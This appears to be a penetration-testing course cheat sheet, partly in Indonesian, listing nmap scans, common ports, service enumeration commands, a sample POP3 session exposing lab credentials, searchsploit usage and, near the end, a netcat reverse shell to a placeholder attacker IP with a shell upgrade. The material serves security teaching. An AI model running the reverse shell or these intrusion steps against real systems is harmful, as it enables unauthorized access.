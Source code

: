 # VAPT Course Cheat Sheet
This Repository is intended to support VAPT Course. All cheats we need in the course is lay down here. Enjoy!
-----------

## Linux Basic





## Scanning
### NMAP Command
| # | Options |Description |
| --- | --- | --- |
|1| -sT | TCP Connect port scan|
|2| -sU | UDP Port scan |
|3| -p  | specific port scan|
|4| -p- | Scan All ports|
|5| -sV | Check Version of running service |
|6| -sC | Scan with default safe Scripts |
|7| -O | OS Fingerprinting |

| # | Command | Scan For |
| --- | --- | --- |
|1| nmap -sV `Target_IP` | Open TCP Ports and versions |
|2| nmap -sT `Target IP` | Open TCP Ports |
|3| nmap -sU `Target IP` | Open UDP Ports |
|4| nmap -sC -sV -p- `Target IP` | Open All TCP Ports and Versions + Scan with default NSE Scripts |
|5| nmap --vuln `Target IP` | Scan for vulnerability () |

### Search for NMAP Scripts
```
ls /usr/share/nmap/scripts
```

### Interesting ports
| Port # | Description |
| --- | --- |
| 21 | FTP server, unencrypted. |
| 22 | SSH server, can be connected to via SSH |
| 23 | Telnet. Basically an unencrypted SSH |
| 25 | SMTP - Email sending service. [Query it](#SMTP-Email-Enumeration) to enum email addresses? |
| 69 | TFTP Server.  Very uncommon and old. Uses UDP. |
| 80 | HTTP Server, hosting website? Try visiting IP with web browser |
| 88 | Kerberos Service.  Check, [MS14-068](https://labs.f-secure.com/archive/digging-into-ms14-068-exploitation-and-defence/) |
| 110 | POP3 mail service.  Login via telnet or SSH? |
| 111 | RPCbind. This can help us look for NFS-shares |
| 119 | Network Time Protocol |
| 135 | MSRPC - Microsoft RPC |
| 139 | SMB Service. likely vulnerable to an SMB RCE |
| 161, 162 | SNMP Service |
| 389, 636 | LDAP Directory Service |
| 443 | HTTPS, check for HeartBleed? View certificate for information? |
| 445 | SMB Shares service, likely vulnerable to an SMB RCE |
| 587 | Submission.  If Postfix is run on it, it could be vunerable to shellshock |
| 631 | CUPS. Basically a Linux Printer Service for sharing printers. |
| 1433 | Default MSSQL port.  `sqsh -S 10.1.11.41 -U sa` |
| 1521 | Oracle DB. `tnscmd10g version -h 10.1.11.51` |
| 2021 | Oracle XML DB.  Check [Default Passwords](https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm) |
| 2049 | Network File System. `showmount -e 10.1.11.64` |
| 3306 | MySQL Database.  Connect: `mysql --host=10.1.11.69 -u root -p`|
| 3389 | Listening for RDP connection |

## Enumeration
### FTP
Check for Anonymous login allowed
```
ftp open Target_IP
```
> Username: anonymous ; password sembarang
Download file from ftp
```
get <nama file>
```

### SMB
Connect ke SMB untuk mengecek Shares yang available
```
smbclient -L Target_IP
```

Connect ke salah satu shares
```
smbclient //Target_IP/Shares_name
```

### SMTP
Verify SMTP Port using netcat
```
nc -nv Target_IP 25
```

### POP3 Enumeration
```
root@kali:~# telnet $ip 110
+OK beta POP3 server (JAMES POP3 Server 2.3.2) ready
USER billydean    
+OK
PASS password
+OK Welcome billydean

list

+OK 2 1807
1 786
2 1021

retr 1

+OK Message follows
From: jamesbrown@motown.com
Dear Billy Dean,

Here is your login for remote desktop ... try not to forget it this time!
username: billydean
password: PA$$W0RD!Z
```

### HTTP Enumeration
- Common Sensitive Directory
|/admin|/dashboard|/phpMyAdmin|
|----|----|----|
|/adm|/cpanel|/manage|
|/4dm1n|/root|/pma |
/login| /cms| dan lainnya|

- Wordlists

- Dirb

- Nikto
Scanning web menggunakna nikto
```
nikto -H http://<ip_target>
```
- WPScan (Wordpress Scanner)
```
wpscan --url http://target.com 
```

### Search For Public Exploit
Google Search, Github, Exploit-DB

Searchsploit
```
searchsploit linux 2.2.0
```
> Mencari exploit dengan keyword tertentu contoh linux 2.2.0

Mendownload (Copy) exploit ke working directory
```
searchsploit -m Nomor_Exploit
```

Download File
```
wget Alamat_URL
```


### Reverse shell
Membuat Listener Pada Machine Attacker (Kali), contoh untuk port 4444
```
nc -nlvp 4444
```
Kemudian pada Victim:
```
nc -nv IP_Attacker Port -e /bin/bash
```

### Upgrade ke Interactive shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
<ENTER>
<ENTER>
```
